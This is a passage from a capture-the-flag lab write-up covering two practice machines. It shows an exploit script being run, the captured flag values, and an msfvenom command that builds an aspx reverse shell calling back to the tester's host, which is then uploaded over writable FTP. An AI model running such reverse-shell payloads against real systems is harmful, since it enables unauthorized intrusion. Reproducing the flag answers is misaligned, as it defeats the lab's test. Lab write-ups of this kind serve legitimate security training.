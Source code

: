    ```bash
   python 42315.py 10.10.10.4
   ```

   ![image-20201108172405723](.Report.assets/image-20201108172405723.png)

6. From this shell, I was able to list the contents of the user.txt and root.txt:
   ![image-20201108172828612](.Report.assets/image-20201108172828612.png)
   user.txt: e69af0e4f443de7e36876fda4ec7644f
   root.txt: 993442d258b0e0ec917cae9e695d5713

### 10.10.10.5 - Devel

1. Initial enumeration showed ftp and http were open on this server and that it was running IIS 7.5.

2. I tested the ftp server and had write access to the root folder, so I created an aspx reverse shell and uploaded it to the server:

   ```bash
   msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.37 LPORT=8000 -f aspx -o shell.aspx
   ```

   ![image-20201108215921116](.Report.assets/image-20201108215921116.png)
